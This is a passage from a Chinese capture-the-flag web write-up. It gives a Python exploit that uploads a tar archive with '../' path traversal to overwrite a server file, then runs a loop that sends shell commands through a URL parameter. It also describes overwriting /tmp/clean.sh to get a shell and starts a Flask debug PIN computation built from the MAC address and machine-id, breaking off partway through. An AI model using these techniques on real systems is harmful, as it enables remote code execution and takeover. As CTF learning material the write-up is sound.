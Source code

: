 在原来的基础上加个这个

![image-20221016223327232](D:\Typora\note\CTF\web\比赛wp\NSS#6.assets\image-20221016223327232.png)

**exp**

```python
import tarfile
import requests

def change_name(tarinfo):
    tarinfo.name = "../" + tarinfo.name
    return tarinfo

with tarfile.open("exploit.tar", "w:xz") as tar:
    tar.add("main.py", filter=change_name)
    
def upload():
    res = requests.post(url=url, files={"file": open("exploit.tar", 'rb')})
    
url='http://1.14.71.254:28045/upload'
upload()
while 1:
    a=input('bash:')
    r=requests.post(url=url+'?a='+a)
    print(r.text)
```

![image-20221016224003715](D:\Typora\note\CTF\web\比赛wp\NSS#6.assets\image-20221016224003715.png)

#### 预期

预期是利用覆盖`/tmp/clean.sh`，然后访问`/clean` getshell

然后你会发现flag是root权限才能读的

所以就只能**flask算pin**来得到root权限了

常用反弹shell的命令都没弹成功，不知道怎么回事，直接root权限读文件吧

用户为肯定为**root**了

**app.py**的位置上面已得到

![image-20221016233634606](D:\Typora\note\CTF\web\比赛wp\NSS#6.assets\image-20221016233634606.png)

算pin(**详见上篇文章**)

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485376925239',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '96cec10d3d9307792745ec3b85c8962079be847c1c22f74bae99e457863e13fd4c60de47472f2a8d533525466d7c34de'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
            continue
```